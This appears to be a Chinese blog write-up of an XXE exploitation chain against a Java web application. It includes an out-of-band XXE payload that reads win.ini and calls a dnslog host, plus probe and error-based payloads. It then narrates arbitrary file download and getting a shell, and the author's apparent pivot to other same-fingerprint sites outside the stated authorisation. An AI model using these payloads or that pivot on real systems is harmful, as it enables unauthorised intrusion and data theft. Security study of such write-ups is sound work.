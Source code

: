 #  Java实战篇-XXE漏洞利用从潜到深   
 进击安全   2024-03-09 16:02  
  
## 目标  
  
经典渗透场景   
- 登录框（授权合法渗透）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwiaeUbDrysJPicUZLk5jCzKbf06hGqmia9ibz7eeGXUiarvDhEse4ZJkqUTw/640?wx_fmt=png&from=appmsg "")  
## 初步挖掘  
  
发现某  
JSP路径返回包泄露了代码信息，且疑似存在XXE漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFw4gZHrhodhdG7aaKTD9fAX396UlND8Iic26xLJoCon1ZiafvnO1wGYf7g/640?wx_fmt=png&from=appmsg "")  
  
通过泄露的代码构造出  
post请求包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwfOEoQrzTRcvB8omwG6c3Ps88OCWgek3t62piaYg2Syibv69Hd5na3bHQ/640?wx_fmt=png&from=appmsg "")  
  
测试，漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwJxxxgxMuWRMq9lcuHUyJVSbsUwlRShkrkGecECiaQF4fqwK4khCorVw/640?wx_fmt=png&from=appmsg "")  
  
Poc：  
<table><tbody><tr><td width="426" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;&lt;!DOCTYPE ANY [</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;!ENTITY % file SYSTEM &#34;file:///C:\Windows\win.ini&#34;&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;!ENTITY % dtd SYSTEM &#34;http://xxe.</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">xxx</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">.</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">dnslog</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">.</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">cn</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">/xxe&#34;&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">%dtd;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">%send;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">]&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;root&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;name&gt;&amp;b;&lt;/name&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;/root&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
**插曲 - XXE复习**  
  
**参考文章：******  
  
https://forum.butian.net/share/2573  
  
https://www.heetian.com/info/565  
  
XXE漏洞指的是**XML外部实体注入**  
（  
XML External Entity Injection）漏洞，它是一种常见的安全漏洞类型，可以用来攻击基于XML的应用程序。当应用程序接受XML输入时，攻击者可以插入带有外部实体引用的恶意XML数据，从而导致应用程序执行未经授权的操作，比如访问本地文件系统、执行远程代码等。攻击者可以通过利用XXE漏洞来获取敏感信息、控制服务器，或者执行其他恶意操作  
  
**读取文件******  
  
在进行利用之前应该先测试下，目标环境有无**回显**，是否**支持外部实体**。  
<table><tbody><tr><td width="426" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">检查是否支持外部实体</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"> </span></p><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">%foo;</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">]&gt;</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">查看你的服务器是否有请求</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p></td></tr></tbody></table>  
**不同平台支持的协议******  
  
注意：  
jdk1.8开始不再支持gopher协议  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwtLicRCNPkF6Rx8bkys67ibeuzoF4ibIh56xh7PMg8xcJBWicSHLEA3rq2g/640?wx_fmt=png&from=appmsg "")  
  
**Java环境下读取文件******  
  
1、netdoc协议和file协议的作用是一样的，都可以读取文件  
  
2、Java环境下可以使用file协议读取列目录，和ls作用类似  
  
3、在Java环境中，我们可以使用CDATA来读取包含特殊字符的文本数据，避免XML解析器对其进行解析。但是也只能读取一些简单的文本文件，如果文本中含有&或%还是无法进行读取。  
  
如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwDohk88wGtYPceIqfTESyPKLONaXgdab0wXmLQ5tKg6PWXKfWrzZBOg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwPUKia75Tg8IrdZI9cTm4ibWibIy6QvibMWgg6lbVEHZn79Z8yFrQLAicQ5A/640?wx_fmt=png&from=appmsg "")  
## 深入挖掘  
  
至此，脑中已有大体思路，那就是利用  
XXE外带或者回显读文件来进一步扩大攻击面；由于Java下用  
file和CDATA也无法读取内容含&、%、中文等文件，所以不能读jsp，class等文件，可以选择读向日葵，web.xml等文件来尝试getshell。****  
  
**报错找绝对路径******  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwVia9JJN8icz99CVfCuS6O8vKzMoXE8RMwtbTOkEK2qfgUmLPQ9qrVWCg/640?wx_fmt=png&from=appmsg "")  
  
<table><tbody><tr><td width="426" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;?xml version=&#34;1.0&#34;?&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;!DOCTYPE foo [</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;!ELEMENT foo ANY&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;!ENTITY xxe SYSTEM &#34;file&#34;&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">]&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;service&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;serviceID&gt;&amp;xxe;&lt;/serviceID&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;parameters&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">        <span style="font-family:宋体;">&lt;parameter index=&#34;&#34; type=&#34;&#34;&gt;&lt;/parameter&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;/parameters&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;/service&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
**列目录、读文件******  
  
利用本地  
DTD进行文件读取  
时发现权限不够，被拒绝访问了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwVRtSaUClRqLQ6hmiarvY9LqyQUEZGz9HGRkRqia5466byBwMahJuk6NQ/640?wx_fmt=png&from=appmsg "")  
  
小问题，这可难不倒我胡图图，寻找同指纹站点，找个权限高的，便可解决问题  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwtA6COIzhwQPwEMkA9rgF3gmAKgzkICABDicLnYBOMERNbVQFOKAwocg/640?wx_fmt=png&from=appmsg "")  
  
更换站点后，顺利读取目标  
web目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwpgrgmGYibia0t6u0k3dPR09s1bUZSIbAXhRfu76QtMt0LjBfvnDqvxpg/640?wx_fmt=png&from=appmsg "")  
  
通过读  
web.xml+黑盒测试，发现任意下载漏洞  
  
web.xml中存在未授权的文件操作接口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwdvSl511Ytic0E3CgibDC9Tjgc1zGsibFz9wFrDmpibCkFGdlsyQ6N5VfmA/640?wx_fmt=png&from=appmsg "")  
  
黑盒，存在任意文件下载漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwIWiaDKzicgFtSd32rgpZH1OZcC2CiaAyOUbEaT3MoSpicGGgumtZ8KVicnw/640?wx_fmt=png&from=appmsg "")  
  
有了任意下载，接下来的渗透之路譬如探朗取物般简单，通过任意下载，将  
class文件下载到本地进行阅读  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwQo3dBgPKWpiaLiaEwfhS5L6msBlthMpxLcAjc9nQCyYHNQlg44Ug698w/640?wx_fmt=png&from=appmsg "")  
  
成功  
getshell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwcgyF0iclWoN0Cibrae2BSTsOBIiaKS1dhOM6ibDm1l41EX9Ile1pibW5geQ/640?wx_fmt=png&from=appmsg "")  
  
最终完成曲折的日站之旅  
## 总结  
  
平常看了些许  
XXE漏洞利用文章，等到自己实际上手时还是很抓瞎  
  
千学不如一看，千看不如一练  
  
**本公众号作者联系方式**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
